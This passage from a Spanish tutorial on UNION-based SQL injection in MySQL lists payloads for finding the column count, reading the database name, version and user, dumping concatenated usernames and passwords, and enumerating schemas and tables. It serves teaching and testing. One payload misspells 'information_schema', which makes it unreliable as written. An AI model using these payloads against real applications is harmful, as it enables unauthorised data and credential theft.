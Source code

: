 - Añada los datos de la segunda consulta
- Salga el mensaje ```The used SELECT statements have a different number of columns```

Es por que estamos ante una inyeccion SQL de este tipo

##### Obteniendo al numero de columnas

Antes de realizar UNION-based, es necesario conocer el numero de columnas que tiene, comunmente se hace con la instruccion ```ORDER BY```, esta instruccion nos sirve para hacer un ordenamiento de los datos con base en un numero de columnas, es decir, si usamos el payload ```1' ORDER BY 10-- -```, le estamos diciento que nos ordene los datos basandose en la decima columna, si la tabla no tiene 10 columnas nos saltara un error, asi que podemos ir prueba y error hasta saber el numero de columnas existentes.

##### Obteniendo informacion basica

- **Nombre de la base de datos:** ```1' UNION SELECT null, null, database()-- -```

- **Version de la base da datos:** 1' ```UNION SELECT null, null, @@version-- -```

- **Usuario en uso de la base de datos:** ```1' UNION SELECT null, null, user()-- -```

##### Concatenando

Habra veces donde tendremos que mostrar los resultados de varias columnas en una sola, para eso podemos concatenarlos usando ```concat()```, de esta manera:

```sql
1' UNION SELECT null, CONCAT(usuario, contraseña), null FROM usuarios-- -
```
En ese ejemplo estamos concatenando ```usuario``` y ```contraseña``` en el resultado de la columna 2

##### Obteniendo informacion con information schema

Los gestores de bases de datos tienen bases de datos que guardan informacion de otras bases de datos, en MySQL se llama ```information_schema``` 

**Enumerar las bases de datos**

Una vez que sepamos el numero de columnas podemos usar un payload como este:

```sql
1' UNION SELECT schema_name, null, null FROM information_schema.schemata-- -
```

Donde la tabla ```schemata``` tiene informacion de las bases de datos, y una de sus columnas es ```schema_name```, la cual tiene el nombre de las bases de datos.

**Enumeracion de tablas**

Supongamos que el resultado de la consulta anterior nos dio el nombre de una base de datos que se llama ```waifus```, asi que para sacar sus tablas podemos usar:

```sql
1' UNION SELECT table_name, null, null FROM informacion_schema.tables WHERE table_schema="waifus"-- -
```
Donde:
- ```table_name``` son las tablas
- ```table_schema``` es el nombre de la base da datos
